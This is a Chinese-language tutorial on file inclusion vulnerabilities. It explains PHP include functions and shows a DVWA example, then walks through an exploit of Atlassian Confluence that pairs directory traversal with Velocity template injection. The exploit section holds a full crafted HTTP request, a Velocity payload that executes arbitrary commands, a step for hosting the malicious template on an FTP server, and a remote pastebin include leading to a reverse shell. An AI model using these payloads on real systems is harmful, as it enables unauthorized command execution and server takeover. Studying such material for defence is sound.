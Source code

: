 ## 简介
文件包含漏洞是代码注入的一种。其原理就是注入一段用户能控制的脚本或代码，并让服务器端执行，代码注入的典型代表就是文件包含File inclusion。文件包含可能会出现在jsp、php、asp等语言中。服务器通过函数去包含任意文件时，由于要包含的这个文件来源过滤不严，而攻击者可以构造恶意文件在服务器上执行，获取服务器权限。
## 常见文件包含函数
`php`: include() 、include_once()、require()、require_once()、fopen()、readfile()
`jsp`: ava.io.file()、java.io.filereader()
`asp`: include file、include virtual
以php举例

- include：包含并运行指定文件，当包含外部文件发生错误时，系统给出警告，但整个php文件继续执行
- require：跟include唯一不同的是，当产生错误时候，include会继续运行而require停止运行
- include_once：这个函数跟include函数作用几乎相同，只是他在导入函数之前先检测下该文件是否被导入。如果已经执行一遍那么就不重复执行了
- require_once：这个函数跟require函数作用几乎相同，与include_once和include类似

php.ini配置文件：allow_url_fopen=off 即不可以包含远程文件。php4存在远程包含&本地包含，php5仅存在本地包含。
使用上面几个函数包含文件时，该文件将作为PHP代码执行，PHP内核并不在意被包含的文件是什么类型的。也就是说用这几个函数包含任何文件时，也会将其当做php文件来执行。
## 漏洞成因
程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次（抽离公共方法，这样做叫解耦，减少代码冗余度），于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件需要使用时进行包含调用
示例 DVWA中文件包含漏洞
在开启allow_url_fopen=on，allow_url_include=on 的时候，即允许远程文件包含
![image.png](01.文件包含.assets/2023_05_19_14_38_03_lDPE3OXr.png)
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```
包含本地文件：
![image.png](01.文件包含.assets/2023_05_19_14_38_06_NQHDvjfZ.png)
包含远程文件：
![image.png](01.文件包含.assets/2023_05_19_14_38_06_XsCoZi7K.png)

## 漏洞挖掘场景

1. 引用外部文件，如script
2. 引用内部模板文件
3. 引用远程模板文件
4. 等等
## 案例
### 0x1 本地文件包含（引用内部模板文件）
在此处可以看到script标签里，引用了`vendor/jquery/jquery.min.js`，在此处可以看到外部链接由本地文件`download.php`处理，通过`f`参数，引用vendor中的js文件
![image.png](01.文件包含.assets/2023_05_19_14_38_06_G8yBRDc3.png)
![image.png](01.文件包含.assets/2023_05_19_14_38_07_TcNiYHyz.png)

![image.png](01.文件包含.assets/2023_05_19_14_38_07_BG9HwJhb.png)
### 0x2 远程文件包含配合SSTi RCE
Atlassian Confluence，在6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令

发送如下数据包

```http
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.93.131:8090
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.93.131:8090
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fsettings%2Ffonts%2Ecfm; JSESSIONID=C7A2A62F69D9CF4D3F7F5391E601D109
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 163

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/123","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![image-20230613140803467](01.文件包含.assets/image-20230613140803467-6636484.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用file:///etc/passwd来读取文件，也可以通过https://...来加载远程文件。

![image-20230613140818156](01.文件包含.assets/image-20230613140818156-6636499.png)

FTP加载远程文件

启动一个ftp服务器，将恶意文件放置在ftp服务器上

```shell
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

```shell
python -m pyftpdlib -p 2121 -i 0.0.0.0 [-u username -P [password]]
```

![image-20230613140904451](01.文件包含.assets/image-20230613140904451-6636545.png)

HTTPS 包含远程文件

```http
https://pastebin.com/raw/RyUvk1h8
```

![image-20230613141053161](01.文件包含.assets/image-20230613141053161-6636654.png)

反弹shell

![image-20230613141111830](01.文件包含.assets/image-20230613141111830-6636672.png)
